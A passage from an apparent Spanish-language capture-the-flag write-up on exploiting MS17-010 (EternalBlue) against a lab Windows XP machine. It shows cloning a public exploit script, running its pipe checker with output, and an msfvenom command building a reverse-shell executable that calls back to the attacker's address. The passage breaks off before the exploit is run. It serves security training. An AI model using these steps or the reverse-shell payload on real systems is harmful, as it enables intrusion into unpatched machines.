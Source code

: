 ¡Encontramos dos CVE que presentan vulnerabilidades en la máquina! `ms17-010` y `MS08-067`.

## EXPLOTACION POR MS17-010                                                                            
Vamos a realizar la explotación de nuestro primer CVE, para este caso haremos uso del script de github de [helviojunior](https://github.com/helviojunior/MS17-010) _para esta explotación es necesario tener instalado python2_.

```bash
  ❯ git clone https://github.com/helviojunior/MS17-010
  ❯ cd MS17-010/
```

Creamos un ambiente virtual de python2 para poder ejecutar el script sin presentar errores por librerías sin soporte.

```bash
  ❯ virtualenv -p python2 ms17-010
  ❯ source ms17-010/bin/activate
```

Ahora que nos encontramos en el ambiente virtual, procedemos a descargar la librería impacket requerida para ejecutar el exploit.

```bash
  pip install impacket
```

Como primer paso, vamos a ejecutar el `checker.py` que nos ayuda a identificar el nombre del pipe que vamos a utilizar en el script de explotación.

```bash
 ❯ python checker.py 10.10.10.4
  Trying to connect to 10.10.10.4:445
  Target OS: Windows 5.1
  The target is not patched
  
  === Testing named pipes ===
  spoolss: Ok (32 bit)
  samr: STATUS_ACCESS_DENIED
  netlogon: STATUS_ACCESS_DENIED
  lsarpc: STATUS_ACCESS_DENIED
  browser: Ok (32 bit)
```

Tal como podemos ver, los nombres de pipe que podemos utilizar son los de status **OK**, en este caso `spoolss` y `browser`.

Para poder tener éxito, es necesario generar una reverse shell por medio de la utilidad `msfvenom` con nuestra dirección IP y puerto de escucha para obtener posteriormente la shell denominada `reverseShell.exe`

```bash
  ❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4564 -f exe -o reverseShell.exe
```

Ahora que tenemos el pipe y la reverse shell generada, procedemos a ejecutar el script de explotación `send_and_execute.py` para cargar y ejecutar el payload.
